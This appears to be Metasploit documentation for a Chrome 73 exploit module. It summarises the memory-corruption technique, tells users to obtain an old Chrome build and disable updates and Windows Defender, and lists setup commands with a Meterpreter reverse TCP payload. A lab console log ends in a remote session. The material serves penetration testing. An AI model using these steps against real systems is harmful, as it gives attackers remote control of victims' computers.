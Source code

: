This module exploits an issue in Chrome 73.0.3683.86 (64 bit). The exploit
corrupts the length of a float in order to modify the backing store of a typed
array. The typed array can then be used to read and write arbitrary memory. The
exploit then uses WebAssembly in order to allocate a region of RWX memory, which
is then replaced with the payload.

**The payload is executed within the sandboxed renderer process, so the browser
must be run with the --no-sandbox option for the payload to work correctly.**

## Vulnerable Application

The module is compatible with any 64bit Google Chrome (version 72 or 73), on any
platform (macOS, Linux or Windows), however the code that writes the shellcode
into the rwx region (wasm_rwx_addr) may need to be modified.

**Vulnerable Application Installation Steps**

You can download a vulnerable Chrome version from this location:
[https://www.filepuma.com/download/google_chrome_64bit_73.0.3683.86-21785/](https://www.filepuma.com/download/google_chrome_64bit_73.0.3683.86-21785/)

You should ensure that application does not update itself to the latest version
(by disabling automatic updates or simply not connecting to the internet). You
may also need to disable Windows Defender.

## Verification Steps

1. Do: `use exploit/multi/browser/chrome_array_map`
2. Do: `set payload windows/x64/meterpreter/reverse_tcp`
3. Do: `set LHOST [IP]`
4. Do: `set SRVHOST [IP]`
5. Do: `set URIPATH / [PATH]`
6. Do: `run`

## Scenarios

### Windows 10 and Google Chrome 73.0.3683.86 with --no-sandbox

Start Google Chrome without a sandbox:
`"C:\Program Files (x86)\Google\Chrome\Application\chrome.exe" --no-sandbox`

```
msf5 > use exploit/multi/browser/chrome_array_map
msf5 exploit(multi/browser/chrome_array_map) > set SRVHOST 192.168.56.1
SRVHOST => 192.168.56.1
msf5 exploit(multi/browser/chrome_array_map) > set URIPATH /
URIPATH => /
msf5 exploit(multi/browser/chrome_array_map) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf5 exploit(multi/browser/chrome_array_map) > set LHOST 192.168.56.1
LHOST => 192.168.56.1
msf5 exploit(multi/browser/chrome_array_map) > run
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
msf5 exploit(multi/browser/chrome_array_map) >
[*] Started reverse TCP handler on 192.168.56.1:4444
[*] Using URL: http://192.168.56.1:8080/
[*] Server started.
[*] 192.168.56.3     chrome_array_map - Sending / to Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/73.0.3683.86 Safari/537.36
[*] Sending stage (206403 bytes) to 192.168.56.3
[*] Meterpreter session 1 opened (192.168.56.1:4444 -> 192.168.56.3:49675) at 2020-02-29 15:07:06 +0800

msf5 exploit(multi/browser/chrome_array_map) > sessions 1
[*] Starting interaction with 1...

meterpreter > pwd
C:\Program Files (x86)\Google\Chrome\Application\73.0.3683.86
meterpreter >
```
